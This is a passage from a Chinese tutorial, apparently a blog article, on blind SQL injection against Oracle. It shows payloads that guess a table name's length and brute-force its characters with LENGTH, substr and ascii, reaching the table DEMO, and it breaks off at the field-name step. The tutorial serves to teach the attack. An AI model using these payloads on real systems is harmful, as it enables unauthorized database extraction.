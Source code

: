 *   Instr 方法
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlEerFuUibvzXGC5RD8GpGH6QCu4AFiaoibHOiaH9Vt5cqpesO4sYB6a4ia5w/640?wx_fmt=png)

1. 普通猜解
-------

具体步骤如下：  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlOqmMJjtDkH5DqZia8r9cn1bGZzKIuyTOtR0sicOTEZ5BRxibX2BSBviaLQ/640?wx_fmt=png)

**第一步，获取当前用户下的数据表长度以及每个字符。**  
SQL 语句如下：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlsqsJw49EwyR1z8J9cabakFXfT7BuuULiaA81m1YD0aMIPs0gpjvFIXQ/640?wx_fmt=png)

当我们使用 LENGTH() 计算长度时，如果异常显示则表示失败，如下图没有显示表格。

```
1 and 3=(SELECT LENGTH(table_name) from user_tables where rownum=1)--
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlOj6xfbFeicRpdiaz5GsJMROz5RtZFiaxf0mSERJRkdQyIfApicbj38hhhw/640?wx_fmt=png)

如果正常显示，则表示成功，该表格的长度为 4。

```
1 and 4=(SELECT LENGTH(table_name) from user_tables where rownum=1)--
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGleaicgb8ic1snHxScibVXIw0ViaRibG91OicFCJSrfWkybXUefux4zrQtafvg/640?wx_fmt=png)

**第二步，爆破数据表每个字符。**  
猜测数据库表的每个字符，使用字符截取函数 substr 和 ascii 函数。

```
select ascii(substr(table_name,1,1)) from user_tables WHERE rownum=1;
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlDxfmPcYia1klLQN0KUaay2bxT7z6dlkuGXwG7yiaVtamsgmIsVTV3zYA/640?wx_fmt=png)

只有页面正常显示才能推出每个字符的 ASCII，，比如 ASCII 码查询 67，对应字母 C 则无显示。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlwdX7jZA8XLUWlIq12FQwDkiaURHlsicCv4TTBEB23thiafUrG0KlYLYNg/640?wx_fmt=png)

ASCII 码表如下：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlFZOUSDk5ITKUwCibhHnt6SPEWicnIy3wLNtZGbOZfm6QD4tViaKtZN1uw/640?wx_fmt=png)

当前数据表的首字母的 ASCII 是 68，也即 D，依次爆出的字母是 E、M、O。所以数据表名为：

*   DEMO
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlybkyYpJ1xSEgLtXUPYLvWNHCgXP8yDIyLDW8Hmw9You6ved08JPbUA/640?wx_fmt=png)

**第三步，爆破指定表下的字段名长度。**  
我们先猜解表第一个字段的长度，SQL 语句如下：
